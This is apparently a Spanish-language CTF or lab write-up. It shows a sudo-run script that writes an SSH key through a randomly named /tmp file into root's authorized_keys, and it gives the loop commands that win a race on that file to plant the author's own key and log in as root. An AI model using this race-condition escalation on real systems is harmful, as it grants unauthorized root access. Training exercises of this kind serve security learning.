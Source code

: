 ```bash

checkFile() {

        if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then

                /bin/echo "Error in creating key file!"

                if [[ -f $1 ]]; then /bin/rm $1; fi

                exit 1

        fi

}

addKey() {

        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

        (umask 110; touch $tmpName)

        /bin/echo $key >>$tmpName

        checkFile $tmpName

        /bin/cat $tmpName >>/root/.ssh/authorized_keys

        /bin/rm $tmpName

}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

Crea un archivo en /tmp con nombre aleatorio ssh-XXXXXXXX, escribe en el archivo una clave pública ssh y la añade al /root/.ssh/authorized_keys

Por un lado ejecuto 
```bash
while true; do echo "mi clave pública" | tee /tmp/ssh* > /dev/null; done
```

Y por otro lado desde otra conexión por ssh con el usuario neil ejecuto:

```bash
while true; do sudo /usr/local/bin/enableSSH.sh; done
```

Al mismo tiempo intento conectarme por ssh con el usuario root y consigo que se conecte sin pedir contraseña porque se ha añadido mi clave al authorized_keys de root.